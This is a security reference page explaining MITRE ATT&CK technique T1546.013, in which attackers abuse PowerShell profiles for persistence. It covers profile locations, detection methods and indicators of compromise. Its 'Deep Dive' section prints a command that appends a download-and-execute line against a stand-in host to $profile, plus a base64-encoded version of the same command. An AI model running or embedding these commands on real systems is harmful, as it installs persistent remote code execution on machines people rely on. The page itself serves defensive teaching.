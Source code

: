 ```yaml
---
description: PowerShell Profile [T1546.013]
icon: file
---
```


# PowerShell Profile

## Information

* Name: PowerShell Profile
* ID: T1546.013
* Tactics: [TA0004](../../ta0004/), [TA0003](../)
* Technique: [T1546](./)

## Introduction

The PowerShell Profile sub-technique (T1546.013) in the MITRE ATT\&CK framework involves adversaries modifying or creating malicious PowerShell profiles to execute unauthorized commands or scripts automatically upon the launch of PowerShell. PowerShell profiles are scripts that run each time a PowerShell session starts, allowing users to customize their environment. Attackers exploit this functionality by embedding malicious commands or scripts within these profiles to achieve persistence, execute payloads, or maintain access to compromised systems without user interaction.

## Deep Dive Into Technique

PowerShell profiles are scripts that are executed automatically whenever a new PowerShell session is initiated. These profiles can exist in multiple locations, including:

* System-wide profiles:
  * `%windir%\System32\WindowsPowerShell\v1.0\profile.ps1`
  * `%windir%\SysWOW64\WindowsPowerShell\v1.0\profile.ps1`
* User-specific profiles:
  * `%UserProfile%\Documents\WindowsPowerShell\profile.ps1`
  * `%UserProfile%\Documents\PowerShell\profile.ps1`

Attackers leverage these profiles by modifying existing scripts or creating new ones to execute malicious commands or payloads automatically. Common malicious actions include:

* Executing reverse shells or remote access trojans (RATs) upon PowerShell startup.
* Downloading and executing additional payloads from remote servers.
* Maintaining persistence by ensuring execution every time PowerShell is launched.
* Performing reconnaissance or data exfiltration silently in the background.

Attackers typically achieve this by:

1.  Modifying or creating the profile script directly through command-line or scripting methods:

    ```powershell
    echo "Invoke-WebRequest -Uri 'http://malicious.example.com/payload.ps1' | Invoke-Expression" >> $profile
    ```
2.  Obfuscating malicious commands within the profile script to evade detection:

    ```powershell
    $encodedCommand = 'cG93ZXJzaGVsbCAtbm9wcm9maWxlIC1jb21tYW5kICJJbnZva2UtV2ViUmVxdWVzdCAtVVJJIGh0dHA6Ly9tYWxpY2lvdXMuZXhhbXBsZS5jb20vcGF5bG9hZC5wc2wgfCBJbnZva2UtRXhwcmVzc2lvbiIK'
    powershell -EncodedCommand $encodedCommand
    ```
3. Utilizing administrative privileges to place malicious scripts into system-wide profiles, affecting all users on the system.

## When this Technique is Usually Used

Attackers typically utilize the PowerShell Profile persistence method during the following attack scenarios and stages:

* **Persistence Stage**: After initial compromise, attackers embed malicious commands into PowerShell profiles to ensure continued access across system reboots and user logins.
* **Privilege Escalation**: If attackers gain administrative privileges, they may modify system-wide profiles, affecting all users and potentially escalating privileges further.
* **Execution Stage**: Malicious commands embedded in profiles often download and execute secondary payloads, facilitating lateral movement or data exfiltration.
* **Defense Evasion**: Attackers leverage PowerShell profiles to execute commands without directly invoking suspicious scripts or binaries, thus evading traditional detection mechanisms.

## How this Technique is Usually Detected

Detection methods for malicious PowerShell profile modifications include:

* **File Integrity Monitoring (FIM)**:
  * Monitoring profile scripts for unauthorized changes or creations.
  * Detecting unexpected modifications to `%UserProfile%\Documents\WindowsPowerShell\profile.ps1` or system-wide profile locations.
* **Endpoint Detection and Response (EDR) Solutions**:
  * Monitoring PowerShell process creation events and associated script executions.
  * Alerting on suspicious PowerShell profile modifications or unusual execution patterns.
* **PowerShell Logging and Auditing**:
  * Enabling script block logging (`Event ID 4104`) to capture executed commands.
  * Enabling module logging (`Event ID 4103`) to log module and script invocations.
  * Monitoring Windows Event Logs for suspicious PowerShell activity.
* **Behavioral Analysis**:
  * Detecting anomalous PowerShell activity, such as connections to external IP addresses or domains immediately after PowerShell startup.
  * Identifying unusual parent-child process relationships involving PowerShell.

Indicators of Compromise (IoCs) include:

* Unexpected presence or modification of:
  * `%UserProfile%\Documents\WindowsPowerShell\profile.ps1`
  * `%windir%\System32\WindowsPowerShell\v1.0\profile.ps1`
* Suspicious encoded commands or obfuscated scripts within profile scripts.
* Unusual network connections initiated by PowerShell processes immediately upon launch.

## Why it is Important to Detect This Technique

Early detection of malicious PowerShell profile modifications is critical due to the following impacts:

* **Persistence and Long-Term Access**:
  * Attackers leverage PowerShell profiles to maintain persistent access, potentially remaining undetected for extended periods.
* **Privilege Escalation**:
  * Malicious modifications to system-wide profiles can impact all users, facilitating privilege escalation and lateral movement.
* **Data Exfiltration and Espionage**:
  * Automated execution of malicious scripts enables attackers to silently exfiltrate sensitive data, intellectual property, or credentials.
* **Defense Evasion**:
  * PowerShell profile-based persistence methods often bypass traditional antivirus and signature-based detection systems, making them challenging to detect.
* **Operational Impact**:
  * Undetected malicious activities can lead to significant operational disruptions, data breaches, reputational damage, and regulatory compliance violations.

Therefore, promptly detecting and responding to unauthorized PowerShell profile modifications is essential to minimize potential damage and maintain the security posture of the organization.

## Examples

Real-world examples and scenarios involving malicious PowerShell profile usage include:

* **APT33 (Elfin)**:
  * Iranian threat actor known to leverage malicious PowerShell profiles for persistence.
  * Used PowerShell profiles to execute payloads that communicated with remote command-and-control (C2) servers, facilitating espionage activities.
* **Empire Framework**:
  * Popular post-exploitation framework that includes built-in modules for establishing persistence via PowerShell profiles.
  * Attackers using Empire often insert malicious commands into profiles to automatically reconnect compromised hosts to attacker-controlled infrastructure.
* **FIN7 Group**:
  * Cybercriminal group known for financial attacks targeting retail and hospitality sectors.
  * Utilized malicious PowerShell profiles to maintain persistence and execute payloads silently in victim environments, enabling lateral movement and data theft.
* **Real-World Attack Scenario**:
  1. An attacker gains initial access via phishing email containing a malicious attachment.
  2. Upon execution, the attacker modifies the user's PowerShell profile (`profile.ps1`) to include a command that downloads and executes a remote payload upon every PowerShell session start.
  3. Each time the victim opens PowerShell, the malicious payload executes silently, establishing persistent access and enabling further malicious actions such as data exfiltration or lateral movement.

These real-world examples demonstrate the practical application and potential impact of malicious PowerShell profile modifications, underscoring the importance of proactive detection and response strategies.
